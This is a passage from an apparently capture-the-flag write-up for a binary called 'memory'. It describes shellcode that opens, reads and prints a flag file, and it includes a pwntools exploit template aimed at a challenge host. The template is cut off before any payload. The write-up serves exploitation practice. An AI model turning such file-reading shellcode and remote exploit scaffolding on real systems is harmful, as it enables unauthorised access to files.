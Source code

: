 The shellcode is fairly straightforward.
We read a filename into a writeable address, then call `open` to get a handle to this file.
We can then use `read` to store the contents of the file at a writable address, possibly the same address as earlier.
Finally, we use `write` to print the contents of the buffer.

By sending the string `flag.txt`, our shellcode will read the contents of the flag file and print it.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host 20.216.39.14 --port 1235 memory
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('memory')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or '20.216.39.14'
port = int(args.PORT or 1235)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
```
